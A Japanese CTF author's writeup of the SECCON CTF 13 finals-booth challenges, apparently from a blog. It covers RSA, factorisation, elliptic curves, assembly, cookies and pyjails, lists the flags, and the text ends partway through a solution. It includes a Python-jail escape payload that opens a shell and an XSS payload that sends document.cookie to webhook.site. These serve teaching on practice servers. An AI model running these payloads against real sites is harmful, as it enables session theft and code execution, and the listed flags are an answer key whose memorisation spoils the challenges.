


# SECCON CTF 13 決勝観戦CTF - 作問者Writeup
[SECCON CTF 13 決勝観戦CTF](https://alpacahack.com/ctfs/seccon-13-finals-booth) にご参加いただきありがとうございました！
想定の倍の参加者数になり、満席状態が続いたり、グッズが不足してしまったりと、ごめんなさい。
SECCONってこんなに人居たっけ？となりました。

**目次**
- [開催の経緯](#開催の経緯)
- [問題セット](#問題セット)
- [Writeup](#writeup)
  - [\[Welcome, Beginner\] Welcome! (167 solves)](#welcome-beginner-welcome-167-solves)
  - [\[Crypto, Beginner\] Long Flag (152 solves)](#crypto-beginner-long-flag-152-solves)
  - [\[Web, Beginner\] 🍪 (139 solves)](#web-beginner--139-solves)
  - [\[Rev, Beginner\] Beginner's Flag Printer (121 solves)](#rev-beginner-beginners-flag-printer-121-solves)
  - [\[Misc, Beginner\] parseInt (89 solves)](#misc-beginner-parseint-89-solves)
  - [\[Crypto\] trippple (81 solves)](#crypto-trippple-81-solves)
  - [\[Crypto\] 42 (40 solves)](#crypto-42-40-solves)
  - [\[Rev\] Flag Printer (38 solves)](#rev-flag-printer-38-solves)
  - [\[Pwn, Beginner\] Can U Keep A Secret? (31 solves)](#pwn-beginner-can-u-keep-a-secret-31-solves)
  - [\[Misc\] 1linepyjail4b (19 solves)](#misc-1linepyjail4b-19-solves)
  - [\[Web\] csv2json (15 solves)](#web-csv2json-15-solves)
  - [\[Crypto\] Customizable EC (11 solves)](#crypto-customizable-ec-11-solves)
  - [\[Crypto\] 42\* (10 solves)](#crypto-42-10-solves)
  - [\[Rev\] Slow Flag Printer (10 solves)](#rev-slow-flag-printer-10-solves)
  - [\[Web\] dinosaur (8 solves)](#web-dinosaur-8-solves)
  - [\[Pwn\] Alpaca Wakekko (6 solves)](#pwn-alpaca-wakekko-6-solves)
  - [\[Web\] blue-note (6 solves)](#web-blue-note-6-solves)
  - [\[Rev\] Concurrent Flag Printer (3 solves)](#rev-concurrent-flag-printer-3-solves)

## 開催の経緯

SECCON CTFの運営の中で、「決勝会場の後方ブースでAlpacaHackのコラボイベントやったら盛り上がるんじゃない？」みたいな話が持ち上がり、軽い気持ちで引き受けました。が、蓋を開けてみると電脳会議のページにでかでかと掲載されていて、占有時間が決勝に次ぐコンテンツだったので、これはちゃんとやんなきゃなと思い、2月に入ってから予選の移植、グッズ作成、作問を気合でやりました。

## 問題セット

今回のCTFでは、welcome問を除いて20問出題し、そのうち17問を自分が作問しました。本当は初心者向けCTFにかねてから意欲的だったkeymoonに作問を全てお任せしたかったのですが、[シンガポールに行かなくちゃいけない](https://x.com/kymn_/status/1895646310323404978)ということで、自分が大半を作問しました。

AlpacaHack では通常 Crypto, Pwn, Rev, Web の4カテゴリーのCTFを開催しており（1カテゴリーに絞って毎月1,2回実施）、今回の決勝観戦CTFでもカテゴリーは踏襲して、追加でMisc 2問を出題しました。

また、幅広い参加者層が予想されたため、難易度も幅広く、各カテゴリー4,5問ずつ用意しました。以下が問題一覧で、想定難易度順に大まかに並んでいます:

| category | challenge                 | note                        |
| -------- | ------------------------- | --------------------------- |
| crypto   | Long Flag                 | PyCryptodome                |
| crypto   | 42                        | Factorization               |
| crypto   | trippple                  | RSA                         |
| crypto   | 42*                       | Complexity                  |
| crypto   | Customizable EC           | Elliptic Curve              |
| misc     | parseInt                  | JavaScript                  |
| misc     | 1linepyjail4b             | pyjail                      |
| pwn      | Can U Keep A Secret?      | C Pitfall                   |
| pwn      | play with memory          | Memory                      |
| pwn      | danger of buffer overflow | BOF                         |
| pwn      | cache crasher             | Heap                        |
| pwn      | Alpaca Wakekko            | ROP                         |
| rev      | Beginner's Flag Printer   | C Assembly                  |
| rev      | Flag Printer              | C Assembly                  |
| rev      | Slow Flag Printer         | C++ Assembly                |
| rev      | Concurrent Flag Printer   | Rust Assembly, Multi-Thread |
| web      | 🍪                         | Cookie                      |
| web      | dinosaur                  | Prototype Pollution         |
| web      | csv2json                  | XSS, DOMPurify              |
| web      | blue-note                 | XS-Leak                     |

余談: この表を見ての通り、幅広い参加者層を想定していたため、初心者に難しいトピックも含まれています。しかし、SECCONの広報さんにそのことを伝えきれておらず、前日にX上で「未経験者向け」が強調された宣伝がされてしまう形になりました。自分の伝達ミスです、反省。宣伝自体はとても効果があり、本当にありがたい限りでした。

## Writeup

以下、Writeup です。solves 順に並べています。参加者のWriteupは [CTFのWriteupページ](https://alpacahack.com/ctfs/seccon-13-finals-booth/writeups) にありますので、そちらも参考にしてください。

### [Welcome, Beginner] Welcome! (167 solves)

🔗 _[問題リンク](https://alpacahack.com/ctfs/seccon-13-finals-booth/challenges/welcome-to-seccon-13-finals-booth)_

問題文にフラグが書かれています。
それを提出することで、CTFの基本的な流れを理解してもらうことを目的とした問題です。

また、最初に目にする問題でもあるため、初心者向けの補足説明もここに書きました。

**Flag: `Alpaca{welcome_to_seccon_ctf_13_finals_booth}`**

### [Crypto, Beginner] Long Flag (152 solves)

🔗 _[問題リンク](https://alpacahack.com/ctfs/seccon-13-finals-booth/challenges/long-flag)_

Python で書かれたプログラムが与えられます:

```python
import os
from Crypto.Util.number import bytes_to_long

print(bytes_to_long(os.getenv("FLAG").encode()))
```

また、このコードを実行した際の出力結果が与えられます:

```
35774448546064092714087589436978998345509619953776036875880600864948129648958547184607421789929097085
```

この数値からフラグを逆算するという問題です。

[PyCryptodome](https://pypi.org/project/pycryptodome/) は CTF で必須のライブラリで、`bytes_to_long` 関数を使うと`bytes`型を`int`型に変換できます。

逆に`int`型から`bytes`型への変換には`long_to_bytes`関数が使えます。例えば、Pythonの対話シェルで以下のように実行すると、フラグが得られます:

```
$ python
Python 3.13.2 (main, Feb 17 2025, 08:41:42) [Clang 16.0.0 (clang-1600.0.26.4)] on darwin
Type "help", "copyright", "credits" or "license" for more information.
>>> from Crypto.Util.number import long_to_bytes
>>> long_to_bytes(35774448546064092714087589436978998345509619953776036875880600864948129648958547184607421789929097085)
b'Alpaca{LO00OO000O00OOOO0O00OOO00O000OOONG}'
```

**Flag: `Alpaca{LO00OO000O00OOOO0O00OOO00O000OOONG}`**

Crypto では、`bytes_to_long`, `long_to_bytes` は非常によく使う関数で基本なので、それを知ってもらう問題でした。

### [Web, Beginner] 🍪 (139 solves)

🔗 _[問題リンク](https://alpacahack.com/ctfs/seccon-13-finals-booth/challenges/cookie)_

Fastify を使った Web アプリケーションとそのコードが与えられます:

```js
import Fastify from "fastify";
import fastifyCookie from "@fastify/cookie";

const fastify = Fastify();
fastify.register(fastifyCookie);

fastify.get("/", async (req, reply) => {
  reply.setCookie('admin', 'false', { path: '/', httpOnly: true });
  if (req.cookies.admin === "true")
    reply.header("X-Flag", process.env.FLAG);
  return "can you get the flag?";
});

fastify.listen({ port: process.env.PORT, host: "0.0.0.0" });
```

GET で `/` にアクセスすると、このアプリケーションは以下の処理を行います:
- `admin` に `false` を `httpOnly` 属性付きでセットする
- クライアントから送信されたクッキーをチェックし、`admin` が `true` だった場合にのみ `X-Flag` ヘッダーにフラグをセットする
- レスポンスとして `can you get the flag?` を返す

この仕様から、クライアント側でクッキーの `admin` を `true` にすればフラグが得られることが分かります。
ただ `httpOnly` 属性があるため、JavaScript （`document.cookie`）でクッキーの変更はできません。

例えば、curl を使えばフラグを得られます:

```
$ curl http://34.170.146.252:6407/ -b "admin=true" --head
HTTP/1.1 200 OK
x-flag: Alpaca{7h3_n4m3_c0m35_fr0m_B3cky}
content-type: text/plain; charset=utf-8
set-cookie: admin=false; Path=/; HttpOnly; SameSite=Lax
content-length: 21
Date: Tue, 04 Mar 2025 03:29:30 GMT
Connection: keep-alive
Keep-Alive: timeout=72
```

また、Chrome Developer Tools のアプリケーションタブで値を変更し、再アクセスしてネットワークタブのレスポンスヘッダーから取得することもできます。

アプリケーションタブ:



レスポンスヘッダー:



**Flag: `Alpaca{7h3_n4m3_c0m35_fr0m_B3cky}`**

Web問の基本をいくつかを学べる問題として作りました。

### [Rev, Beginner] Beginner's Flag Printer (121 solves)

🔗 _[問題リンク](https://alpacahack.com/ctfs/seccon-13-finals-booth/challenges/beginners-flag-printer)_

フラグを出力するアセンブリが与えられます:

```asm
.LC0:
        .string "Alpaca{%x}\n"
main:
        push    rbp
        mov     rbp, rsp
        sub     rsp, 16
        mov     DWORD PTR [rbp-4], 539232261
        mov     eax, DWORD PTR [rbp-4]
        mov     esi, eax
        mov     edi, OFFSET FLAT:.LC0
        mov     eax, 0
        call    printf
        mov     eax, 0
        leave
        ret
```

`printf` や `%x` があることからC言語で書かれていそうなことがわかります。

各命令の説明などはAIがわかりやすく解説してくれると思うので省きますが、解析すると以下のC言語コードの挙動をしそうなことがわかります:

```c
#include <stdio.h>

int main() {
    int value = 539232261;
    printf("Alpaca{%x}\n", value);
    return 0;
}
```

Revは言語的でありLLMと相性が良いカテゴリーなので、AIに直接アセンブリを投げれば上記のコードも簡単に出力してくれるはずです。

`539232261` を16進数表現した値を `Alpaca{` と `}` で囲んだ文字列がフラグになります。

```
$ python
Python 3.13.2 (main, Feb 17 2025, 08:41:42) [Clang 16.0.0 (clang-1600.0.26.4)] on darwin
Type "help", "copyright", "credits" or "license" for more information.
h>>> hex(539232261)
'0x20240805'
```

**Flag: `Alpaca{20240805}`**

アセンブリに触れ合う一歩目の問題として作りました。

### [Misc, Beginner] parseInt (89 solves)

🔗 _[問題リンク](https://alpacahack.com/ctfs/seccon-13-finals-booth/challenges/parse-int)_

JavaScript において、`a < b && parseInt(a) > parseInt(b)` となるような `a`, `b` のペアを見つける問題です。

以下の Node.js スクリプトがサーバーで動いています:

```javascript
const rl = require("node:readline").createInterface({
    input: process.stdin,
    output: process.stdout,
});

rl.question("Input a,b: ", input => {
    const [a, b] = input.toString().trim().split(",").map(Number);
    if (a < b && parseInt(a) > parseInt(b))
        console.log(process.env.FLAG);
    else
        console.log(":(");
    rl.close();
});
```

問題文に `nc 34.170.146.252` とありますが、 CTF において、netcat (`nc`) はコマンドライン経由で問題サーバーとデータをやり取りするツールとして使われます。
サーバーに接続すると`Input a,b: `というプロンプトが表示され、問題サーバーが入力を待ち受けます:

```
$ nc 34.170.146.252 47322
Input a,b:
```

`parseInt` 関数は文字列を整数値に変換しますが、単純に数値を入力しても条件は満たせなさそうです。

まず、発想としては"整数値"への変換に注目します。
例えば、浮動小数点数や大きな数値を入力するとどういった挙動になるでしょうか？

`parseInt` 関数の挙動は [MDNのドキュメント](https://developer.mozilla.org/ja/docs/Web/JavaScript/Reference/Global_Objects/parseInt) にこう書かれています:

>`parseInt` 関数は[第 1 引数を文字列に変換し](https://developer.mozilla.org/ja/docs/Web/JavaScript/Reference/Global_Objects/String#%E6%96%87%E5%AD%97%E5%88%97%E5%A4%89%E6%8F%9B)、解釈したうえで、整数または `NaN` を返します。

>巨大な数値では `e` の文字を文字列表現の中で使用しますので（例えば `6.022E23` は 6.022 × 10^23 を表します）、`parseInt` を使用して数値を切り捨てると、とても大きな数字やとても小さな数字を使用する際に予期しない結果を生み出すことがあります。 `parseInt` を [`Math.trunc()`](https://developer.mozilla.org/ja/docs/Web/JavaScript/Reference/Global_Objects/Math/trunc) の代用として使うべきではありません。

実際に実験してみましょう:
```
$ node
Welcome to Node.js v22.11.0.
Type ".help" for more information.
> 0.000000000000000000000000000009
9e-30
> String(0.000000000000000000000000000009)
'9e-30'
> parseInt(0.000000000000000000000000000009)
9
```

`0.000000000000000000000000000009` は文字列では `9e-30` と表され、`parseInt` の結果 `e` 以降の文字列が消えた結果、`9` になっているのがわかります。

この実験より、例えば `0.000000000000000000000000000009` と `1` を入力すれば、フラグを得られます:

```
$ nc 34.170.146.252 47322
Input a,b: 0.000000000000000000000000000009,1
0.000000000000000000000000000009,1
Alpaca{..ww.w....<')))><.~~~}
```

**Flag: `Alpaca{..ww.w....<')))><.~~~}`**

netcatを知ってもらう + JavaScript 小ネタ問でした。

### [Crypto] trippple (81 solves)

🔗 _[問題リンク](https://alpacahack.com/ctfs/seccon-13-finals-booth/challenges/trippple)_

Python で書かれたプログラムが与えられます:

```python
import os
from Crypto.Util.number import getPrime, bytes_to_long

m = bytes_to_long(os.getenv("FLAG").encode())
p = getPrime(96)
n = p * p * p
e = 65537
c = pow(m, e, n)

print(f"{n,c=}")
```

また、このコードを実行した際の出力結果が与えられます:

```
n,c=(272361880253535445317143279209232620259509770172080133049487958853930525983846305005657, 69147423377323669983172806367084358432369489877851180970277804462365354019444586165184)
```

コードはRSA暗号のような処理を行っており、RSA暗号では通常 $n=pq$ であるところを $n=p^3$ として処理していることがわかります。

RSA暗号は素因数分解の困難性に基づく暗号ですが、 $n=p^3$ であれば $n$ の立方根を計算すれば $p$ が求められるため、復号することが容易です。通常、復号に使用する Euler's Totient Function $\varphi(n)$ は $(p-1)(q-1)$ ですが、 $n=p^3$ の場合は、 $p^2(p-1)$ になります。

これを踏まえて、以下のように [SageMath](https://www.sagemath.org/) でフラグを求めることができます。
SageMath は Crypto カテゴリーをやる上では必須のツールなので、もし知らない方はこの機会にぜひ使ってみてください:

```python
from Crypto.Util.number import long_to_bytes

n, c = map(Integer, input("n,c=").split(","))
p = n.nth_root(3)
phi = p * p * (p - 1)
e = 65537
d = pow(e, -1, phi)
m = pow(c, d, n)
flag = long_to_bytes(m)
print(flag)
```

**Flag: `Alpaca{h1t&4w4y_k4nzum3}`**

RSA暗号入門問題として作りました。

### [Crypto] 42 (40 solves)

🔗 _[問題リンク](https://alpacahack.com/ctfs/seccon-13-finals-booth/challenges/42)_

Python で書かれたプログラムが与えられます:

```python
import os
from Crypto.Util.number import getPrime, bytes_to_long

x = bytes_to_long(os.getenv("FLAG").encode())
for _ in range(42):
    x *= getPrime(42)
print(x)
```

また、このコードを実行した際の出力結果が与えられます:

```
1147519914005635970823022779519580521609222940350823007699842537827644738629829657046897975782350987748029018405699017377382521676899556171556649128260865812262043303782475632488849236816194782530154901066736272457909268699844626557409460652217501658644287801649083260640392194864370700199619482572398308537257922259125395585581757757644945754520977388691814074631081409677094992839775104691433743609551833747629636402523522392312458111656977789142053773849669780021688811768524291886161405435708715493344047580746854894532523408006689911316576153711061177239836663374119954672786387
```

素因数分解さえできれば、フラグの特定は容易なように見えます。
ただ素数が約42 bitと若干大きいので、高速な素因数分解アルゴリズムを使う必要があります。
素因数分解には様々なアルゴリズムがありますが、今回は楕円曲線法で解けます。

楕円曲線法は色々なライブラリに実装されています。SageMath を使うと以下のようになります:

```python
x = 1147519914005635970823022779519580521609222940350823007699842537827644738629829657046897975782350987748029018405699017377382521676899556171556649128260865812262043303782475632488849236816194782530154901066736272457909268699844626557409460652217501658644287801649083260640392194864370700199619482572398308537257922259125395585581757757644945754520977388691814074631081409677094992839775104691433743609551833747629636402523522392312458111656977789142053773849669780021688811768524291886161405435708715493344047580746854894532523408006689911316576153711061177239836663374119954672786387
factors = ecm.factor(x)
print(f"{len(factors)=}")
print(factors)
```

実行すると以下の出力が得られます:

```
len(factors)=46
3 * 23 * 2205496470181 * 2219555763769 * 2233425033163 * 2239061295271 * 2259023796727 * 2284404776567 * 2291370145123 * 2416633488457 * 2419508288471 * 2434758174067 * 2500841090549 * 2503738093453 * 2573045476847 * 2680923822481 * 2778916602433 * 2788061078027 * 2796482148853 * 2874516939989 * 3132015040537 * 3139228584347 * 3155640636023 * 3194390562137 * 3284689931333 * 3395646793247 * 3450918694961 * 3542857468897 * 3558548169959 * 3723346041941 * 3734921299007 * 3741754738429 * 3881331302137 * 3955397572079 * 3975840251293 * 4072584462841 * 4130457980197 * 4158189715259 * 4194605058227 * 4207350753019 * 4244137496801 * 4299476105167 * 4327600625807 * 4333485694679 * 64527453873583290390233 * 360296424708927327075211324489217
```

素因数が46個あることがわかり、`for` 文で追加した42個の素数をもし除けた場合、4個の素数が残ります。
ここで `getPrime(42)` は 42 ビットの素数を返すので、42ビットの素数ではない $3$, $23$, $64527453873583290390233$, $360296424708927327075211324489217$ は必ずフラグに含まれます。

よって、これらを掛け合わせて文字列に変換すればフラグが求まります:

```
print(long_to_bytes(3 * 23  * 64527453873583290390233 * 360296424708927327075211324489217))
```

**Flag: `Alpaca{42_is_6_times_7.}`**

Long Flag 同様に暗号の2,3歩手前の問題として作りました。
あまり solves が伸びませんでしたが、この CTF では詰まったときに AI の使用を推奨していて、trippple に対してこの問題は AI で単純に正しい解法を答えてくれないことが影響していそうでした。

### [Rev] Flag Printer (38 solves)

🔗 _[問題リンク](https://alpacahack.com/ctfs/seccon-13-finals-booth/challenges/flag-printer)_

Beginner's Flag Printer と同様に、フラグを出力するアセンブリが与えられます:

```asm
  f(char*):
          push    rbp
          mov     rbp, rsp
          mov     QWORD PTR [rbp-24], rdi
          mov     DWORD PTR [rbp-4], 0
          jmp     .L2
  .L4:
          mov     eax, DWORD PTR [rbp-4]
          movsx   rdx, eax
          mov     rax, QWORD PTR [rbp-24]
          add     rax, rdx
          movzx   eax, BYTE PTR [rax]
          cmp     al, 64
          jle     .L3
          mov     eax, DWORD PTR [rbp-4]
          movsx   rdx, eax
          mov     rax, QWORD PTR [rbp-24]
          add     rax, rdx
          movzx   eax, BYTE PTR [rax]
          cmp     al, 90
          jg      .L3
          mov     eax, DWORD PTR [rbp-4]
          movsx   rdx, eax
          mov     rax, QWORD PTR [rbp-24]
          add     rax, rdx
          movzx   eax, BYTE PTR [rax]
          movsx   eax, al
          lea     edx, [rax-65]
          mov     eax, DWORD PTR [rbp-4]
          add     eax, 13
          add     eax, edx
          movsx   rdx, eax
          imul    rdx, rdx, 1321528399
          shr     rdx, 32
          sar     edx, 3
          mov     ecx, eax
          sar     ecx, 31
          sub     edx, ecx
          imul    ecx, edx, 26
          sub     eax, ecx
          mov     edx, eax
          mov     eax, edx
          lea     ecx, [rax+65]
          mov     eax, DWORD PTR [rbp-4]
          movsx   rdx, eax
          mov     rax, QWORD PTR [rbp-24]
          add     rax, rdx
          mov     edx, ecx
          mov     BYTE PTR [rax], dl
  .L3:
          add     DWORD PTR [rbp-4], 1
  .L2:
          mov     eax, DWORD PTR [rbp-4]
          movsx   rdx, eax
          mov     rax, QWORD PTR [rbp-24]
          add     rax, rdx
          movzx   eax, BYTE PTR [rax]
          test    al, al
          jne     .L4
          nop
          nop
          pop     rbp
          ret
  .LC0:
          .string "Alpaca{%s}\n"
  main:
          push    rbp
          mov     rbp, rsp
          sub     rsp, 16
          mov     DWORD PTR [rbp-7], 1197424961
          mov     DWORD PTR [rbp-4], 4672071
          lea     rax, [rbp-7]
          mov     rdi, rax
          call    f(char*)
          lea     rax, [rbp-7]
          mov     rsi, rax
          mov     edi, OFFSET FLAT:.LC0
          mov     eax, 0
          call    printf
          mov     eax, 0
          leave
          ret
```

順当に処理を追うと 関数 `f` は ROT13 のような処理を行っています。
ただ、ROT13 とは異なり、1文字目は13文字ずらしますが、2文字目は14文字、3文字目は15文字 ... のように1文字ずつ変化します。
また、65(`A`) 以上 90(`Z`) 以下の文字しかこの変換処理は行っていません。

`f` に与える文字列はここで構成されています:

```
          mov     DWORD PTR [rbp-7], 1197424961
          mov     DWORD PTR [rbp-4], 4672071
```

これがどのような文字列か調べます:

```
$ python
Python 3.13.2 (main, Feb 17 2025, 08:41:42) [Clang 16.0.0 (clang-1600.0.26.4)] on darwin
Type "help", "copyright", "credits" or "license" for more information.
h>>> hex("1197424961")
KeyboardInterrupt
>>> hex(1197424961)
'0x475f4141'
>>> hex(4672071)
'0x474a47'
>>> bytes.fromhex("475f4141")
b'G_AA'
>>> bytes.fromhex("474a47")
b'GJG'
```

この結果から、`G`の上書きを考慮して、`AA_GJG`が関数`f`に与えられることがわかります。

コンパイル元のコードは以下です:

```c
#include <stdint.h>
#include <stdio.h>

void f(char *s) {
    for(int i = 0; s[i]; i++)
        if(s[i] >= 'A' && s[i] <= 'Z')
            s[i] = ((s[i] - 'A' + (i + 13)) % 26) + 'A';
}

int main() {
    char s[] = "AA_GJG";
    f(s);
    printf("Alpaca{%s}\n", s);
    return 0;
}
```

**Flag: `Alpaca{NO_WAY}`**

じっくりとアセンブリを追って処理を理解する問題として作りました。

### [Pwn, Beginner] Can U Keep A Secret? (31 solves)

🔗 _[問題リンク](https://alpacahack.com/ctfs/seccon-13-finals-booth/challenges/can-u-keep-a-secret)_

以下のコードと、そのバイナリが与えられます:

```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
#include <unistd.h>

int main() {
    srand(time(NULL));
    unsigned int secret = rand(), input;
    printf("secret: %u\n", secret);

    // can u keep a secret??/
    secret *= rand();
    secret *= 0x5EC12E7;
    scanf("%u", &input);
    if(input == secret)
        printf("Alpaca{REDACTED}\n");
    return 0;
}
```

なんてことのないコードですが、この行に注目してください:

```
    // can u keep a secret??/
```

おわかりいただけただろうか。

`??/` が[トライグラフ](https://ja.wikipedia.org/wiki/%E3%83%88%E3%83%A9%E3%82%A4%E3%82%B0%E3%83%A9%E3%83%95)であり `\` を表し、下の行である `secret *= rand();` もコメントになります。
結果的に、与えられた `secret` に `0x5EC12E7` を掛けた値を入力するだけで解けます。

**Flag: `Alpaca{u_r_pwn_h3r0}`**

初心者向けだから、普通の脆弱性よりもC言語の小ネタも一問くらいあったほうが楽しんでもらえるかなと思って出したら裏目になり、なぜそのような挙動になるのかわからないまま過半数の人が解いてしまう結果に。

トライグラフであることは以下の行動のどれかをとって気づけることを想定していました:
- `??/` に違和感を覚える
- 実際にコンパイルしてみてトライグラフの警告が表示される
- gdbで動的解析する
- 逆アセンブルしてみる

トライグラフであることを沼らずに気づいて解いた人にはわりと楽しんでもらえたようで良かったです。

### [Misc] 1linepyjail4b (19 solves)

🔗 _[問題リンク](https://alpacahack.com/ctfs/seccon-13-finals-booth/challenges/1linepyjail4b)_

SECCON予選で出題された 1linepyjail の文字制約の無いバージョンです:

```python
print(eval(code, {"__builtins__": None}) if len(code := (input("jail> ").strip())) <= 86 else ":(")
```

色々な解法がありますが、例えば以下のペイロードでワンショットで解けます:

```python
{}.__class__.__base__.__subclasses__()[122].load_module('os').system('sh')
```

**Flag: `Alpaca{m4ny_m4ny_p1zz4_3v3ryb0dy_h4ppy}`**

pyjail入門問題として作りました。1linepyjail と同様に help を呼び出しても解けます。

### [Web] csv2json (15 solves)

🔗 _[問題リンク](https://alpacahack.com/ctfs/seccon-13-finals-booth/challenges/csv2json)_

CSVのテキストをJSONのテキストに変換するWebアプリケーションが与えられます。

本質部分は以下の JavaScript コードです:
```js
const params = new URLSearchParams(location.search);
if (params.get("csv")?.length > 0)
    result.innerHTML = JSON.stringify(Papa.parse(DOMPurify.sanitize(params.get("csv"))).data);
```

DOMPurity は XSS を防ぐサニタイザーの一つです。しかし、ここでは DOMPurify によるサニタイズを実行したあとに CSVパーサーである [Papa Parse](https://www.papaparse.com/) のパースを実行してしまっています。
パースをしたあとにサニタイズを実行しなければ安全ではなく、ここでXSSが可能です。

DOMPurify のサニタイズをくぐり抜けりつつ、パースを失敗させないようにCSVとして成立させたペイロードを構成すればOKです。

例えば以下のペイロードでXSSが可能です:
```
"<p id=",>,">"
```

フラグはcookieに含まれているので、あとはwebhook.siteや自分のサーバーなどに`document.cookie`を送ればOKです。

BotにアクセスさせるURLの例:
```
http://web:3000/?csv=%22%3Cp+id%3D%22%2C%3E%3Cimg+src%3Dx+onerror%3Dfetch%28%27https%3A%2F%2Fwebhook.site%2FREDACTED%3F%27%2Bdocument.cookie%29%3E%2C%22%3E%22
```

**Flag: `Alpaca{p4p4_s3mpl1c1t4}`**

XSSパズル入門問題として作りました。

### [Crypto] Customizable EC (11 solves)

🔗 _[問題リンク](https://alpacahack.com/ctfs/seccon-13-finals-booth/challenges/customizable-ec)_

楕円曲線の問題です。以下のSageMathで書かれたサーバーが動いています:

```python
import os
import signal
from Crypto.Util.number import bytes_to_long

signal.alarm(30)

try:
    p, a, b = map(int, input("Enter p,a,b: ").split(","))
    assert 512 <= p.bit_length() < 1024 and 0 <= a < p and 0 <= b < p
    E = EllipticCurve(GF(p), [a, b])
    P = E.random_point()
    Q = bytes_to_long(os.getenv("FLAG").encode()) * P
    print(f"{P=}, {Q=}")
except Exception as _:
    print(":(")
```

楕円曲線のパラメータ $p,a,b$ を自由に設定でき、その楕円曲線の離散対数問題を解く問題です。
ただし、 $p$ は512以上1024未満のビット数である必要性があります。

自由度が高いので様々な解法が存在します。
自分は $p=2^{521}-1,\ a=1,\ b=0$ を与えたとき、楕円曲線の位数が $2^{512}$ になり Pohlig–Hellman Algorithm を使えることを利用して解きました。参加者に聞いたところ、その解法で解いた人は居なかったので、ここではその解法を紹介します。

まず、楕円曲線の位数の性質として、以下の2つがよく知られています:
- $p \equiv 2 \mod 3$ のとき、 $y^2\equiv x^3 + b \mod q$ の位数は $p+1$
- $p\equiv 3\mod 4$ のとき、 $y^2\equiv x^3+ax\mod q$ の位数は $p+1$

この性質を使うと、Pohlig–Hellman Algorithm で高速に計算できる smooth な条件を簡単に作ることができます。
例えば、メルセンヌ素数 $p=2^{521}-1$ を与えたとき、上記2つのうちどちらかの性質を満たせば、 $p+1$ は $2^{521}$ になり、とても smooth になります。
実際、 $2^{a+2} - 1 = 4 \cdot 2^a - 1$ であるので、 $1$ 以外のメルセンヌ素数は全て $p \equiv 3 \mod 4$ です。

よって前述のパラメータを使用して、この問題を解くことが出来ます:

```python
from Crypto.Util.number import long_to_bytes 
from pwn import remote

r = remote("localhost", 9999, level="debug")

r.recv()
p, a, b = 2^521 - 1, 1, 0
r.sendline(f"{p},{a},{b}")

E = EllipticCurve(GF(p), [a, b])
o = E.order()
r.recvuntil(b"=(")
px = int(r.recvuntil(b" : ", True).decode())
py = int(r.recvuntil(b" ", True).decode())
r.recvuntil(b"=(")
qx = int(r.recvuntil(b" : ", True).decode())
qy = int(r.recvuntil(b" ", True).decode())

P = E(px, py)
Q = E(qx, qy)

n = discrete_log(Q, P, o, operation="+")
print(long_to_bytes(n))
```

**Flag: `Alpaca{3n0ugh_w1th_th3_cu5t0m5}`**

楕円曲線に入門できる問題として作りました。

また、[魔女kurenaif](https://x.com/fwarashi)から指摘されて気付いたんですが、 $p$ は素数である必要がなく、 $p^2$ とかもいけちゃいます。
それで解くおもしろ解法もあるかも。

### [Crypto] 42* (10 solves)

🔗 _[問題リンク](https://alpacahack.com/ctfs/seccon-13-finals-booth/challenges/42-star)_

Python で書かれたプログラムが与えられます:

```python
import os
import random
from Crypto.Util.number import bytes_to_long

x = bytes_to_long(os.getenv("FLAG").encode())
for _ in range(42):
    x *= random.getrandbits(42)
print(x)
```

また、このコードを実行した際の出力結果が与えられます:

```
302825260919317779466638288706941757478119936504864503289299111810878557424069832851837952929397907929396668240458993245662741522591539210493306557224673507192171095532552008396687356525313836501117714017702880902013061423179550493813470620956236263763510927657899587551000326509836294794948423351121777067521675908878203343378571238778872260377769563951765315203164771192344115744888944635103673374760547507150197387248980588584664707496184797486345139870127142403853041203948936595396757260050089360185668376949219377211437731767603055237909466371770346897408000000000000000
```

42と似ていますが、素数をかけ合わせていたのが、ランダムな数になっています。

まず、42と同様に素因数分解をしてみます:

```
2^45 * 3^19 * 5^15 * 7^4 * 11^4 * 13^3 * 19^3 * 29^2 * 31^2 * 37^3 * 41^2 * 59 * 73 * 89 * 101 * 113 * 127 * 139 * 167 * 181 * 251 * 313 * 353 * 397 * 421 * 461 * 479 * 521 * 877 * 881 * 1039 * 1301 * 1319 * 2503 * 4253 * 4931 * 5153 * 5393 * 6047 * 7577 * 11939 * 13591 * 14281 * 15061 * 16063 * 17107 * 34589 * 79139 * 136247 * 542687 * 699151 * 5232047 * 6826271 * 7940341 * 8128741 * 13613293 * 15013367 * 16218857 * 26849519 * 34568459 * 44246567 * 44924899 * 131319997 * 159166789 * 193282213 * 270757631 * 441225131 * 748234759 * 2820984713 * 3453026453 * 3959747513 * 4019043439 * 5342437369 * 7711108879 * 7973344633 * 8208095579 * 9261327707 * 14178556339 * 14955780253 * 21565514297 * 25903166119 * 27943524131 * 40170254417 * 51379149413 * 260671393973 * 613612427189 * 633521692649 * 2815337843287 * 6300966946522285730659 * 176828107660926468363751
```

ここで以下の考察ができます:
- $2^{42}$ 以上の素数はフラグに使うことが確定している
    - 42 と同様
    - `random.getrandbits(42)` は $2^{42}$ 未満の数を生成するため
- フラグを素因数分解すると素数の数は多くて10個程度
    - 実際に手元で100回ほど42個ランダムな数を掛けて素因数分解する実験をするとわかる
- フラグのビット数がざっくりと $\frac{x}{{2^{40}}^{42}}$ を超えない
    - `random.getrandbits(42)` が $2^{41}$ より小さな数を生成する確率は 1/2
- フラグを素因数分解したとき重複する素数の数は多くない

これら考察をもとに dfs 等で全探索すれば10秒程度で解けます:

```python
from Crypto.Util.number import long_to_bytes

